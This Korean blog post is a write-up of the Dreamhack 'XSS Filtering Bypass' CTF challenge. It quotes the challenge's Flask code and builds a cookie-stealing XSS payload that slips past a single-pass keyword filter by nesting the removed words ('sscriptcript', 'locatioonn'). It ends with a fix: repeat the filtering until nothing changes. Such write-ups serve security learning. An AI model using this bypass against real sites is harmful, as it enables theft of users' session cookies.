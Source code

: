 ```yaml
---
title: (4) Dreamhack XSS Filtering Bypass 문제 풀이
date: 2024-01-09 +09:00
categories:
  - 웹해킹
tags:
  - [웹해킹, 드림핵]
---
```

{% raw %}
## 문제 풀이
먼저 들어오면 이런 모습입니다.
![](https://kyuyeop.github.io/assets/img/post/4/1.png)
![](https://kyuyeop.github.io/assets/img/post/4/2.png)
vuln 페이지에는 뭐가 없네요. 개발자 도구로 코드를 뜯어보니 param을 그대로 반영한 듯 싶습니다. xss 취약점이 있을 수 있겠네요.
![](https://kyuyeop.github.io/assets/img/post/4/3.png)
memo는 들어갈 때 마다 hello를 띄워주네요.
![](https://kyuyeop.github.io/assets/img/post/4/4.png)
flag는 이렇게 되어 있습니다. POST 요청을 날려주네요.
  
그럼 이제 코드를 확인해 봅시다.
```python
#!/usr/bin/python3
from flask import Flask, request, render_template
from selenium import webdriver
from selenium.webdriver.chrome.service import Service
import urllib
import os

app = Flask(__name__)
app.secret_key = os.urandom(32)

try:
    FLAG = open("./flag.txt", "r").read()
except:
    FLAG = "[**FLAG**]"


def read_url(url, cookie={"name": "name", "value": "value"}):
    cookie.update({"domain": "127.0.0.1"})
    try:
        service = Service(executable_path="/chromedriver")
        options = webdriver.ChromeOptions()
        for _ in [
            "headless",
            "window-size=1920x1080",
            "disable-gpu",
            "no-sandbox",
            "disable-dev-shm-usage",
        ]:
            options.add_argument(_)
        driver = webdriver.Chrome(service=service, options=options)
        driver.implicitly_wait(3)
        driver.set_page_load_timeout(3)
        driver.get("http://127.0.0.1:8000/")
        driver.add_cookie(cookie)
        driver.get(url)
    except Exception as e:
        driver.quit()
        # return str(e)
        return False
    driver.quit()
    return True


def check_xss(param, cookie={"name": "name", "value": "value"}):
    url = f"http://127.0.0.1:8000/vuln?param={urllib.parse.quote(param)}"
    return read_url(url, cookie)

def xss_filter(text):
    _filter = ["script", "on", "javascript:"]
    for f in _filter:
        if f in text.lower():
            text = text.replace(f, "")
    return text

@app.route("/")
def index():
    return render_template("index.html")


@app.route("/vuln")
def vuln():
    param = request.args.get("param", "")
    param = xss_filter(param)
    return param


@app.route("/flag", methods=["GET", "POST"])
def flag():
    if request.method == "GET":
        return render_template("flag.html")
    elif request.method == "POST":
        param = request.form.get("param")
        if not check_xss(param, {"name": "flag", "value": FLAG.strip()}):
            return '<script>alert("wrong??");history.go(-1);</script>'

        return '<script>alert("good");history.go(-1);</script>'


memo_text = ""


@app.route("/memo")
def memo():
    global memo_text
    text = request.args.get("memo", "")
    memo_text += text + "\n"
    return render_template("memo.html", memo=memo_text)


app.run(host="0.0.0.0", port=8000)
```
여기서 주의깊게 봐야할 부분은
```python
def read_url(url, cookie={"name": "name", "value": "value"}):
    cookie.update({"domain": "127.0.0.1"})
    try:
        service = Service(executable_path="/chromedriver")
        options = webdriver.ChromeOptions()
        for _ in [
            "headless",
            "window-size=1920x1080",
            "disable-gpu",
            "no-sandbox",
            "disable-dev-shm-usage",
        ]:
            options.add_argument(_)
        driver = webdriver.Chrome(service=service, options=options)
        driver.implicitly_wait(3)
        driver.set_page_load_timeout(3)
        driver.get("http://127.0.0.1:8000/")
        driver.add_cookie(cookie)
        driver.get(url)
    except Exception as e:
        driver.quit()
        # return str(e)
        return False
    driver.quit()
    return True

def check_xss(param, cookie={"name": "name", "value": "value"}):
    url = f"http://127.0.0.1:8000/vuln?param={urllib.parse.quote(param)}"
    return read_url(url, cookie)

def xss_filter(text):
    _filter = ["script", "on", "javascript:"]
    for f in _filter:
        if f in text.lower():
            text = text.replace(f, "")
    return text

@app.route("/vuln")
def vuln():
    param = request.args.get("param", "")
    param = xss_filter(param)
    return param

@app.route("/flag", methods=["GET", "POST"])
def flag():
    if request.method == "GET":
        return render_template("flag.html")
    elif request.method == "POST":
        param = request.form.get("param")
        if not check_xss(param, {"name": "flag", "value": FLAG.strip()}):
            return '<script>alert("wrong??");history.go(-1);</script>'

        return '<script>alert("good");history.go(-1);</script>'
```
이 3개의 함수와 vuln, flag 페이지 입니다. FLAG는 오직 /flag에 POST요청을 날렸을때 cookie로만 사용되고 있습니다. 저걸 반드시 이용해야 한다는 뜻이죠. 이어서 check_xss를 거쳐 vuln 페이지가 read_url 함수를 통해 읽어집니다.  
  
그래서 쿠키가 어디까지 가는가 하니, read_url 함수가 webdriver를 통해 vuln 페이지를 접속하는데, 이때 쿠키가 같이 넘어가는 걸 알 수 있습니다.  
그리고 vuln 페이지는 xss_filter 함수를 통해 아주 간단한 문자열 검사를 수행하고 있네요.  
  
즉, flag에서 input에 무언가를 입력하면 flag가 담긴 쿠키와 입력값을 가지고 서버가 vuln 페이지에 한번 들러줍니다.  
  
그럼 서버측에 있는 쿠키를 빼내야 flag를 얻을 수 있다는 것이겠죠? 일단 쿠키를 빼내는 기본적인 방법은
```javascript
document.cookie
```
라는 자바스크립트를 사요하는 방법입니다. 로컬이라면 그냥 alert를 이용해 띄워주면 되겠지만, 이 서버는 쿠키를 서버측에서 가지고 있다가 끝나버립니다.  
  
그래서 memo 페이지를 이용할 겁니다. memo 페이지는 memo 파라미터로 넘어온 모든걸 기록해주는 역할을 하고 있습니다. 그래서 서버에서 쿠키를 빼내 memo 페이지에 저장하는 자바스크립트를 실행할 수만 있다면 해결됩니다. 이를 자바스크립트로 나타내면 다음과 같습니다.
```javascript
location.href="/memo?memo="+document.cookie;
```
서버(read_url 과정)에서 이 코드를 수행하면 memo 파라미터로 쿠키를 넘기고, memo 페이지로 이동하게 할 수 있습니다.  
  
그러면 vuln 페이지로 이렇게만 보내주면 될까요?
```html
<script>location.href="/memo?memo="+document.cookie;</script>
```
vuln 페이지에는 xss_filter 함수로 필터링을 한다고 했었죠? 그래서 이걸 그대로 보낸다면
```html
<>locatin.href="/memo?memo="+document.cookie;</>
```
이렇게 되버릴 겁니다.  
  
따라서 필터링을 우회해야 합니다.  
  
코드를 보면 단순히 입력을 소문자로 바꿔서 script, on, javascript: 가 있다면 지워버리고(''로 치환하고) 결과를 반환합니다. 이 작업은 최초 한번만 작동하기에 치환되는 문자열 일부에 그 문자열을 한번 더 쓴다면 의도한 대로 결과를 얻을 수 있습니다.  
즉, 원하는 페이로드를 보내려면
```html
<sscriptcript>locatioonn.href="/memo?memo="+document.cookie;</sscriptcript>
```
이런식으로 글자 사이에 한번더 치환 문자열을 넣어서 치환을 거쳐 원하는 문자열을 완성시키도록 해야 합니다.  

이렇게 완성된 페이로드를 xss 페이지 input에 넣고
![](https://kyuyeop.github.io/assets/img/post/4/5.png)
제출하게 된다면...
![](https://kyuyeop.github.io/assets/img/post/4/6.png)
good이 떴습니다!
공격에 성공했다는 뜻이죠. 이제 memo 페이지를 확인해 보면...
![](https://kyuyeop.github.io/assets/img/post/4/7.png)
이렇게 flag가 출력되었습니다.  
  
이번엔 \<script\>를 이용했지만 대표적인 xss 페이로드는 스크립트 태그를 사용하는 방법 이외에, img, iframe 을 이용하는 방법도 있습니다.
  
이런종류의 xss를 막으려면 한번만 필터링 할게 아니라, 반복문을 통해 치환 전과 치환 후가 같아질때 까지 필터링을 해줘야 합니다.
{% endraw %}